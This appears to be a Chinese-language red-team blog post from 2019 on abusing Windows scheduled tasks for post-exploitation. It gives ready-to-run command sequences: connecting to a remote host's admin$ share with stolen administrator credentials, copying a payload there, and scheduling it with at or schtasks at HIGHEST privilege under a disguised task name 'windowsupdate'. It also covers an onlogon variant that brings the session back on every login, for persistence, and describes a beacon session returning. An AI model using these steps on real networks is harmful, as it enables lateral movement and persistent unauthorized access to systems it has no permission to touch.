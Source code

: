 ```yaml
---
layout:     post
title:    Windows计划任务在后渗透中的应用
subtitle:   Windows计划任务在后渗透中的应用
date:       2019-11-21
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 渗透测试
    - 红队
    - 内网渗透
---
```

# Windows计划任务在后渗透中的应用

## 简介
计划任务，顾名思义，指定时间做指定的事情，对windows来说可能是执行脚本，也可能是exe。计划任务的利用不仅仅在横向渗透中，也可以是在权限维持。  

## 利用前提
- 1.必须通过其他手段拿到本地或者域管理账号密码  
- 2.若在横向渗透过程中，要保证当前机器能net use远程到目标机器上  
- 3.目标机器开启了task scheduler服务


## 测试
对于XP或者2003以下的机器，基本都是用at来管理本地或者远程机器上的计划任务。这里没有搭建03的机器，就简单的列一下命令，解释一下。  
```
net use \\192.168.1.101\admin$ /user:"administrator” admin  #net use 连接
net time \\192.168.1.101   #查看远程主机时间
xcopy c:\payload.exe \\192.168.1.101\admin$\temp  #拷贝payload到远程主机对应目录下
at \\192.168.1.101 19:30 /every:5,10,15,20,25,30 c:\windows\temp\payload.exe
#设定计划任务，每月5,10,15,20,25,30日的19:30执行命令运行payload
```
设置完计划任务后可以通过以下命令查看：
```
at \\192.168.1.101
```
删除任务的话只需要加上参数/delete即可。  
这样会在指定日期的晚上七点半返回一个会话。  

对于win7之后的版本提供了一个更强大的工具--schtasks。  
对于远程连接还有上传payload的命令是和前面的一样的。  
利用schtasks创建任务：  
```
schtasks /create /s 192.168.1.102 /u “administrator” /p “123!@#” /RL HIGHEST /tn windowsupdate /tr C:\\Windows\temp\1.bat /sc DAILY /mo 1 /ST 19:30  #创建任务
schtasks /run /tn windowsupdate /s 192.168.1.102 /u “administrator” /p “123!@#” 
```
其中，RL表示作业级别，一般设置最高，为HIGHEST，tn是任务名称，tr是运行程序路径，sc表示时间间隔，DAILY表示以天为间隔，mo为执行周期，这里设置成了1天1次。  
拿到之后记得删除任务。  
```
schtasks /delete /tn windowsupdate /s 192.168.1.102 /u “administrator” /p "123!@#"
```
在本地执行的时候，不需要加/s参数去指定远程机器。   
![191121_1](/img/191121_beacon.png)  
直接上线。   

## 拓展
计划任务查询：
```
 schtasks /Query /tn windowsupdate /fo List /v
```
![191121_2](/img/191121_taskquery.png)  
这里我本地测试时候把sc参数改成了onlogon，只要在线，就反弹，还可以设置成其他的形式，结束会话就反弹等，这个根据实际需求设置。    


